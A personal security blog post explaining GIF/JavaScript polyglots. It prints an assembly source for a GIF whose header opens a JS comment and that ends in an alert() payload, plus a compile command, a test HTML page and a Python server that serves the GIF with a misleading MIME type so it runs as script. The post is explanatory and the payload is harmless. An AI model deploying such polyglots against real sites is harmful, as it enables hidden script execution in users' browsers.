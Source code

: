 ```yaml
---
title: "Gif Javascript Polyglots"
date: 2018-01-24T12:13:00-04:00

categories:
  - tech
tags:
  - security
  - ops
  - web

---
```


### The backstory

Recently I saw a feature on a product I work on where we allowed hotlinking to arbitrary gifs without pulling them in, mangling, and then saving for our own use. Right away I thought, "Well this isn't wise" and set off to find ways to abuse it. The easiest and most obvious was to link to an image and then swap it out for a less savoury one later. Kid stuff, right? Let's do some real damage. Spoiler alert: I made a really cool thing but didn't get to weaponize it the way I wanted to.

After proving that I could swap out images with ease from a server I controlled, I started looking for ways to embed executable into the image, which is how I stumbled upon this idea of _polyglots_. In this context, a polyglot is something that is valid code in two or more languages. For our use case, we want a gif/javascript polyglot. 

### Getting down to business

As always, research starts with Google and IRC. I had a feeling that something like this had been done before, so I set about finding papers, posts, or anything really that pointed me to what I was looking for. In short order, I found a couple of good resources that explained the attack and how to craft a malicious gif. 

The basic idea is to use ASM and manually assemble a GIF, filling in the required header and fields. By setting the width to a specific value of `10799`, when the gif is rendered as a script, this is interpreted as a `/*` in ASCII, which is the opening of a Javascript comment block. When interpreted as an img, the browser simply renders the image that wide. The content and fields of the gif are contained between the opening and closing comment blocks of the JS portions, and the comment is closed at the end of the gif. The JS to execute is tacked onto the end of the GIF and is executed when interpreted as a script. I have included a link to the original gist at the bottom of this post, but here is an example of one such gif:

```
; a hand-made GIF containing valid JavaScript code
; abusing header to start a JavaScript comment

; inspired by Saumil Shah's Deadly Pixels presentation

; Ange Albertini, BSD Licence 2013

; yamal gifjs.asm -o img.gif

WIDTH equ 10799 ; equivalent to 2f2a, which is '/*' in ASCII, thus starting an opening comment

HEIGTH equ 100 ; just to make it easier to spot

db 'GIF89a'
    dw WIDTH, HEIGTH

db 0 ; GCT
    db -1 ;  background color
    db 0 ; default aspect ratio
    ;db 0fch, 0feh, 0fch
    ;times COLORS db 0, 0, 0

; no need of Graphic Control Extension
 ; db 21h, 0f9h
 ; db GCESIZE ; size
 ; gce_start:
 ;     db 0 ; transparent background
 ;     dw 0 ; delay for anim
 ;     db 0 ; other transparent
 ; GCESIZE equ $ - gce_start
 ;     db 0 ; end of GCE

db 02ch ; Image descriptor
    dw 0, 0 ; NW corner
    dw WIDTH, HEIGTH ; w/h of image
    db 0    ; color table

db 2 ; lzw size

;db DATASIZE
;data_start:
;    db 00, 01, 04, 04
;    DATASIZE equ $ - data_start

db 0
db 3bh ; GIF terminator

; end of the GIF

db '*/'  ; closing the comment
db '=1;' ; creating a fake use of that GIF89a string

db 'alert("haxx");'
```
As you can see, we close the comment block at the end and add our own Javascript. When interpreted as a script, the parser skips over all the GIF-related stuff and just worries about the JS at the end.

### Compiling

As a product of my own stupidity and failure to follow directions, I mistakenly assumed for a bit that the recommended compiler, [yasm](http://yasm.tortall.net/), was Windows-only. After far too long fighting YASM and C++ runtime trying to get the stupid thing to work, I noticed that I could just pull the source and compile it on my local machine. Sweet! After that, compiling this was a breeze:

```
$ yasm ./gifjs.asm -o img.gif
```

### Execution and Exploitation

Unfortunately, here's where things get a little sad. In order to actually get this to work, I had to do it under some contrived conditions that, while not impossible, are unlikely (in my opinion). 

  1. You have to have the gif interpreted with `<script>` tags as opposed to `<img>` tags
  2. You have to send a misleading MIME type

These two conditions mean that it's unlikely you will find something in the wild which you can abuse. You're better off using a server you already control and setting up explotation conditions favorable to yourself.

To get this to run, I wrote the following tiny bit of HTML:

```html
This is a test
<img src="img.gif">
<script src="img.gif"></script>
```

As you can see, it just throws up a bit of test, displays the malicious GIF as an image, and then again as a script. If you pop open your browser and go to the file in your local filesystem (say, `/tmp/test.html` for instace), the gif will pop the alert box for you. Fun, right?

Now try uploading it to an image hosting site such as Imgur and sourcing it from there and you'll notice something interesting happens. Or rather, doesn't happen. If you try to run the above HTML but using a direct link to a .gif on imgur instead, you'll notice that your browser's console likely displays an error saying something to this effect:

```
Refused to execute script from 'https://i.imgur.com/IXGn93f.gif' because its MIME type ('image/gif') is not executable.
```

_Detour: what the heck is a MIME type?_

MIME types aren't really anything more complex than a label that gets stuck onto some data to tell the receiving end what type of data it is. This lets the client know how it can handle the data. This is just a label and is built on trust. What do we do with trust? We abuse it. Back to your regularly scheduled programming.

This brings me back to point #2: You need to send a misleading MIME type to convince the browser to execute your file. We already know that Imgur won't allow us to do that, so how do we do it? In my case, I used a simple bit of python.

```python
import SimpleHTTPServer
import SocketServer

PORT = 8000

class Handler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    pass

Handler.extensions_map['.gif'] = 'application/octet-stream'

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()
```

This uses SimpleHTTPServer, which is already in Python's standard libraries, to serve the contents of the local directory. By default, SimpleHTTPServer will try and give things appropriate MIME types based on extensions, so we add a smal change to tell it to interpret `.gif` extensions as `application/octect-stream`, which browsers will execute. If I named that html file as `index.html`, I can now hit `http://127.0.0.1:8000/index.html` and get our malicious gif served back with a MIME type that it is okay with executing. The result? We run the JS compiled into the GIF.

### Conclusion

This is not a new or novel attack. This is also not something I feel is widely exploitable, but it is fairly sneaky and exposes a few areas of trust that we can abuse. 

  1. Browsers do little in the way of actual heuristics when trying to determine file type. At best, they will look at the extension and magic byte to try and determine if the file is what it claims to be.
  2. This is a valid GIF and a valid bit of JS, so heuristics would have to be more sophisticated to catch something like this.
  3. Browsers trust MIME types perhaps a bit too much.
  4. This would be easy to exploit and hard to detect using a site you control, since users wouldn't be able to see the JS that is being executed. Then again, they might see that `something.js` was being executed but might not be able to GET the file to see what is in it. Obfuscation level: 3/10.

It's interesting. It's fun. It's simple.

_References_

[https://ajinabraham.com/blog/bypassing-content-security-policy-with-a-jsgif-polyglot](https://ajinabraham.com/blog/bypassing-content-security-policy-with-a-jsgif-polyglot)
[https://gist.githubusercontent.com/ajinabraham/f2a057fb1930f94886a3/raw/62b8e455ad62c42222de9059cd0d20c1a79e2cdb/gifjs.asm](https://gist.githubusercontent.com/ajinabraham/f2a057fb1930f94886a3/raw/62b8e455ad62c42222de9059cd0d20c1a79e2cdb/gifjs.asm)
[http://blog.portswigger.net/2016/12/bypassing-csp-using-polyglot-jpegs.html](http://blog.portswigger.net/2016/12/bypassing-csp-using-polyglot-jpegs.html)



